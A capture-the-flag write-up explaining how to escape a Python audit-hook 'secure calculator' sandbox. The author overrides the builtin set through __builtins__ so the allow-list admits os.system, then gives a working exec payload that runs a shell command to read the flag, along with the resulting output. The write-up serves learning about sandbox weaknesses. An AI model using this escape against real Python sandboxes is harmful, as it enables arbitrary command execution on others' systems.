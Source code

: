 # HAXLAB - Endgame Pwn

The challenge provided a python file implementing a secure calculator. It requires at least python 3.8.5 to run, as it makes use of audit hooks, which has been added along 3.8 and had some fixes in more recent versions.

The script is the same as in the previous version of the challenge, but it requires Remote Code Execution to obtain the content of ```flag2.txt```. The general approach followed in the previous challenge is not adequate, and additional techniques must be used.

An important approach is to list what is available in the builtins:
``` 
>>> exec("for k,v in enumerate(globals()['__builtins__']): print(k,v)")
0 __name__
1 __doc__
2 __package__
3 __loader__
4 __spec__
5 __build_class__
6 __import__
7 abs
8 all
9 any
10 ascii
11 bin
12 breakpoint
13 callable
14 chr
15 compile
16 delattr
17 dir
18 divmod
19 eval
20 exec
21 format
22 getattr
23 globals
24 hasattr
25 hash
26 hex
27 id
28 input
29 isinstance
30 issubclass
31 iter
32 len
33 locals
34 max
35 min
36 next
37 oct
38 ord
39 pow
40 print
41 repr
42 round
43 setattr
44 sorted
45 sum
46 vars
47 None
48 Ellipsis
49 NotImplemented
50 False
51 True
52 bool
53 memoryview
54 bytearray
55 bytes
56 classmethod
57 complex
58 dict
59 enumerate
60 filter
61 float
62 frozenset
63 property
64 int
65 list
66 map
67 object
68 range
69 reversed
70 set
71 slice
72 staticmethod
73 str
74 super
75 tuple
76 type
77 zip
78 __debug__
79 BaseException
80 Exception
81 TypeError
82 StopAsyncIteration
83 StopIteration
84 GeneratorExit
85 SystemExit
86 KeyboardInterrupt
87 ImportError
88 ModuleNotFoundError
89 OSError
90 EnvironmentError
91 IOError
92 EOFError
93 RuntimeError
94 RecursionError
95 NotImplementedError
96 NameError
97 UnboundLocalError
98 AttributeError
99 SyntaxError
100 IndentationError
101 TabError
102 LookupError
103 IndexError
104 KeyError
105 ValueError
106 UnicodeError
107 UnicodeEncodeError
108 UnicodeDecodeError
109 UnicodeTranslateError
110 AssertionError
111 ArithmeticError
112 FloatingPointError
113 OverflowError
114 ZeroDivisionError
115 SystemError
116 ReferenceError
117 MemoryError
118 BufferError
119 Warning
120 UserWarning
121 DeprecationWarning
122 PendingDeprecationWarning
123 SyntaxWarning
124 RuntimeWarning
125 FutureWarning
126 ImportWarning
127 UnicodeWarning
128 BytesWarning
129 ResourceWarning
130 ConnectionError
131 BlockingIOError
132 BrokenPipeError
133 ChildProcessError
134 ConnectionAbortedError
135 ConnectionRefusedError
136 ConnectionResetError
137 FileExistsError
138 FileNotFoundError
139 IsADirectoryError
140 NotADirectoryError
141 InterruptedError
142 PermissionError
143 ProcessLookupError
144 TimeoutError
145 open
146 quit
147 exit
148 copyright
149 credits
150 license
151 help
152 _
```

We can use some of this entries, but if they trigger an audit event, they will mostly be blocked.
The reason is that as two lines only allow events presented on a fixed set:
```
...
    ALLOWED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
    if event not in ALLOWED_EVENTS:
...
```

While the code may seem to be fail proof, you can see that the use of ```set``` is not required to implement such filter. It is actually the attack vector.

Because we have access to ```globals()['__builtins__']```  we can redefine many core funtions, and we can redefine ```set```, providing an alternative implementation.

This implementation will ignore the argument provided an return a fixed set, with a content we can control. The content includes previous events and then the events we require to call a system command or to open a file. Basically we get full control over the program and can execute any code we want.

Because the objective is to demonstrate arbitrary RCE, our object is to include ```os.system``` and define ```set``` ```as lambda x: ['builtins.input', 'builtins.input/result','exec', 'os.system']```. 

The result is our payload, that will obtain the flag.
```
exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat flag2.txt')")
```

Lets test it.


```
======= HAXLAB - An advanced yet secure calculator =======
Powered by Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0]
>>> exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat
flag2.txt')")
sdctf{4ud1t_hO0ks_aR3_N0T_SaNDB0x35}
```

This was solved minutes after the CTF :( 
